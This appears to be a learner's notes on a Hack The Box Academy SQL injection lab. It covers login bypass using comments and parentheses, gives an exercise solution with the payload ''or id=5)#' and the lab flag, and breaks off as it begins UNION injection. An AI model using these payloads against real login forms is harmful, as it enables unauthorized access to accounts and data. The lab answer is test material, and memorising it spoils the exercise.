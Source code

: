- Auth bypass with comments:
admin' -- as our username:
`SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';`

Sql supports the usage of parenthesis if the apop needs to check for particular condition before other, expression within the parenthesis takes precedence over other
operators and are evaluated first:
![panel](https://academy.hackthebox.com/storage/modules/33/paranthesis_fail.png)

To above query ensures that the user's id always greater than 1, which will prevent anyone from loggin in as admin. Lest try to loggin in withBF
valid credentials admin/password for see:

![panel](https://academy.hackthebox.com/storage/modules/33/paranthesis_valid_fail.png)

Lets try with tom user and get login success. We know the previos section on comments that we can use them to comments out the rest of the query so try admin'--.

![panel](https://academy.hackthebox.com/storage/modules/33/paranthesis_error.png)

The login failed due to syntax error, as a closed one did no balance the open parenthesis. To execute the query successfully, we'll have to add a closing parenthesis les try admin'-- like username.

![panel](https://academy.hackthebox.com/storage/modules/33/paranthesis_success.png)

`SELECT * FROM logins where (username='admin')`
Exercise:
Login as the user with the id 5 to get the flag.
` Executing query: SELECT * FROM logins WHERE (username='user' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';`
Then we can user the payload:
'or id=5)#
Then the execution is:
Executing query: SELECT * FROM logins WHERE (username=''or id=5)#' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';

Login successful as user: superadmin

Here's the flag: cdad9ecdf6f14b45ff5c4de32909caec

# Union clause:
So far we have only been manipulating the original query to subvert the web app logic and bypass auth, using th Or operator commnets. Another type of SQL injection is injecting
entire SQL queries along with the original query.
This section will demostrate this by usin the MySql Union clause to de SQL Union Injection.

- Union:
Before we start learning about Union Injection, we should first leant the Sql Clause. The union clause is used to combine results form multiple SELECT statements. This means theat through a UNION injection,
We will able to SELECT and dump data form all across the DBMS, from multiple tables of database. Let us try using the UNION operator in a sample database. First connect to the port tables:
```sql
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```
Next, let us see the output of the ships tables:
```sql
mysql> SELECT * FROM ships;
```